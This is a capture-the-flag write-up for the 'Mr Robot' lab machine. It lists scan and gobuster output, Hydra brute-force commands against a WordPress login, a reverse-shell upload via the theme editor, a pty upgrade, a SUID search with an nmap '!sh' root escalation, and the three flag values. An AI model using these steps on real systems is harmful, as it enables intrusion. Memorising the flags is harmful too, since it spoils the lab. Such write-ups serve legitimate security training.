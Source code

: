 #Mr Robot CTF

IP ADDRESS: `10.10.27.214`


#NMAP
80
443

#WEBSERVER
* visited `10.10.27.214/robots.txt`
* found `key-1-of-3.txt` and `fsocity.dic`


#GOBUSTER
/images               (Status: 301) [Size: 235] [--> http://10.10.27.214/images/]
/blog                 (Status: 301) [Size: 233] [--> http://10.10.27.214/blog/]
/rss                  (Status: 301) [Size: 0] [--> http://10.10.27.214/feed/]
/sitemap              (Status: 200) [Size: 0]
/login                (Status: 302) [Size: 0] [--> http://10.10.27.214/wp-login.php]
/0                    (Status: 301) [Size: 0] [--> http://10.10.27.214/0/]
/feed                 (Status: 301) [Size: 0] [--> http://10.10.27.214/feed/]
/video                (Status: 301) [Size: 234] [--> http://10.10.27.214/video/]
/image                (Status: 301) [Size: 0] [--> http://10.10.27.214/image/]
/atom                 (Status: 301) [Size: 0] [--> http://10.10.27.214/feed/atom/]
/wp-content           (Status: 301) [Size: 239] [--> http://10.10.27.214/wp-content/]
/admin                (Status: 301) [Size: 234] [--> http://10.10.27.214/admin/]
/audio                (Status: 301) [Size: 234] [--> http://10.10.27.214/audio/]
/intro                (Status: 200) [Size: 516314]
/wp-login             (Status: 200) [Size: 2606]
/css                  (Status: 301) [Size: 232] [--> http://10.10.27.214/css/]
/rss2                 (Status: 301) [Size: 0] [--> http://10.10.27.214/feed/]
/license              (Status: 200) [Size: 309]
/wp-includes          (Status: 301) [Size: 240] [--> http://10.10.27.214/wp-includes/]
/js                   (Status: 301) [Size: 231] [--> http://10.10.27.214/js/]
/Image                (Status: 301) [Size: 0] [--> http://10.10.27.214/Image/]
/rdf                  (Status: 301) [Size: 0] [--> http://10.10.27.214/feed/rdf/]
/page1                (Status: 301) [Size: 0] [--> http://10.10.27.214/]
/readme               (Status: 200) [Size: 64]
/robots               (Status: 200) [Size: 41]

* found wordpress is running
* could not enumerate usernames with wordpress scan

#HYDRA
* used hydra to enumerate usernames
`hydra -L fsocity.dic -p test 10.10.27.214 http-post-form "/wp-login.php:log^USER^&pwd=^PWD^:Invalid username" -t 30`
* found username `Elliot`
* Brute forced password
`hydra -l Elliot -P pass.txt 10.10.27.214 http-post-form "/wp-login.php:log=^USER^&pwd=^PWD^:The password you entered for the username"`
* found password `ER28-0652`

#REVERSE SHELL
* uploaded a reverse php shell in wordpress dashboard > Appearance > Editor > archive.php
* opened a nc listner `nc -lvnp 53`
* visited `10.10.27.214/wp-content/themes/twentyfifteen/archive.php`

#SHELL
* found password hash of `robot` user and `key-2-of-3.txt` in `daemon` user home directory
* used john to crack password and found password `abcdefghijklmnopqrstuvwxyz`
* upgraded the shell using `python -c "import pty;pty.spawn('/bin/bash')"`
* `su robot` and entered the password
* read the `key-2-of-3.txt`
* `find / -perm +6000 2>/dev/null | grep '/bin/`
* found `usr/local/bin/nmap`
* `/usr/local/bin/nmap --interactive`
* `!sh`
* escalated privilege to root user
* `cd /root`
* found `key-3-of-3.txt`



#KEYS
1. `073403c8a58a1f80d943455fb30724b9`
2. `822c73956184f694993bede3eb39f959`
3. `04787ddef27c3dee1ee161b21670b4e4`
